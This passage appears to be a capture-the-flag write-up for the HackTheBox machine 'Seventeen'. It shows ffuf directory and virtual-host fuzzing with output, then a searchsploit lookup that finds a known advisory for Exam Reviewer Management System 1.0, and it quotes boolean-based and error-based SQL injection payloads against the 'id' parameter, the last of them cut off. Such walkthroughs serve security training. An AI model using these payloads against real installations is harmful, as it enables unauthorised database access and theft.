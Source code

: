 Clicking around the site, we find no buttons with actual functionalities. Let’s fuzz the page:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://seventeen.htb/FUZZ -ic

css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 19ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 12ms]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 2119ms]
                        [Status: 200, Size: 20689, Words: 2760, Lines: 533, Duration: 2146ms]
fonts                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 24ms]
                        [Status: 200, Size: 20689, Words: 2760, Lines: 533, Duration: 21ms]
sass                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 17ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 22ms]

```

Nothing here. Let’s fuzz for vhosts as well:

```bash
ffuf -u http://seventeen.htb -H "Host: FUZZ.seventeen.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fs 20689

exam                    [Status: 200, Size: 17375, Words: 3222, Lines: 348, Duration: 399ms]
```

Let’s add that to our /etc/hosts file now.

Now we visit the site. Clicking on the admin button results in this:

![image.png]({{ site.baseurl }}/assets/seventeen//image%201.png)

We cannot login. Clicking on Exams seems to take us to a search bar. We also get the version of the system at the bottom. 

![image.png]({{ site.baseurl }}/assets/seventeen//image%202.png)

If we view the page source, we see `Exam Reviewer Management System.` Let’s use searchsploit and see if there is an existing exploit:

```bash
searchsploit Exam Reviewer Management System

Exam Reviewer Management System 1.0 - Remote Code Execution (RCE) (Authenticated)                                        | php/webapps/50726.txt
Exam Reviewer Management System 1.0 - ‘id’ SQL Injection                                                             | php/webapps/50725.txt

```

There is an SQL injection. Let’s use that.

```bash
searchsploit -x php/webapps/50725.txt

Parameter: id (GET)

Type: boolean-based blind

Title: AND boolean-based blind - WHERE or HAVING clause

Payload: p=take_exam&id=1' AND 4755=4755 AND 'VHNu'='VHNu

Type: error-based

Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY
clause (FLOOR)

Payload: p=take_exam&id=1' OR (SELECT 8795 FROM(SELECT
```